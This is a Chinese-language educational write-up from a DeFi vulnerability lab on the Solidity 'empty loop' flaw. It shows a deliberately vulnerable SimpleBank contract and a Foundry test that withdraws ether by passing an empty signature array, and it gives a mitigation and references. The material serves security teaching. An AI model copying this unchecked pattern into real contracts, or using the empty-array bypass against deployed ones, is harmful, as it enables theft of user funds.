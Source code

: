 [empty-loop.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/empty-loop.sol)

# 空循环

**名称：** 空循环问题

**说明：** 由于验证不充分，攻击者可以简单地传递一个空数组来绕过循环和签名验证。

**减轻：**

检查签名数量 require(sigs.length > 0, "未提供签名");

**参考：**

https://twitter.com/1nf0s3cpt/status/1673195574215213057

https://twitter.com/akshaysrivastv/status/1648310441058115592

https://dacian.me/exploiting-developer-assumptions#heading-unexpected-empty-inputs

**SimpleBank 合约样例:**

```jsx
contract SimpleBank {
    struct Signature {
        bytes32 hash;
        uint8 v;
        bytes32 r;
        bytes32 s;
    }

    function verifySignatures(Signature calldata sig) public {
        require(
            msg.sender == ecrecover(sig.hash, sig.v, sig.r, sig.s),
            "Invalid signature"
        );
    }

    function withdraw(Signature[] calldata sigs) public {
        // 措施：检查签名数量
        //请求(sigs.length > 0, "No signatures provided");
        for (uint i = 0; i < sigs.length; i++) {
            Signature calldata signature = sigs[i];
            // 验证每个签名，如果其中任何一个签名验证失败，则恢复。
            verifySignatures(signature);
        }
        payable(msg.sender).transfer(1 ether);
    }

    receive() external payable {}
}
```

***\*测试方法:\****

forge test --contracts src/test/**empty-loop.sol** -vvvv

```jsx
// 测试与签名验证相关的漏洞的函数
    function testVulnSignatureValidation() public {
        // 将 10 以太币转移到 SimpleBankContract
        payable(address(SimpleBankContract)).transfer(10 ether);
        
        // Alice的地址被设置为虚拟机中的第一个地址
        address alice = vm.addr(1);
        
        // 在虚拟机中对 Alice 的帐户发起“恶作剧”
        vm.startPrank(alice);

        // 从 SimpleBank 合约初始化 Signature 结构的空数组
        SimpleBank.Signature[] memory sigs = new SimpleBank.Signature[](0); // empty input

        // 在利用之前记录 Alice 的余额
        console.log(
            "Before exploiting, Alice's ether balance",
            address(alice).balance
        );
        
        // 以空签名数组为参数，调用SimpleBank合约的提现函数
         // 如果 SimpleBank 合约没有正确验证签名，这可能会导致未经授权的提款
        SimpleBankContract.withdraw(sigs); 

        //记录 Alice 在漏洞利用后的余额
        console.log(
            "Afer exploiting, Alice's ether balance",
            address(alice).balance
        );
    }
```

**红色框：传递一个空数组以绕过验证。**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F0c65504d-c3f1-4ee1-b088-76f631784fb3%2FUntitled.png?table=block&id=aa602a09-ccf5-4348-87dd-8ae494f92e4c&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)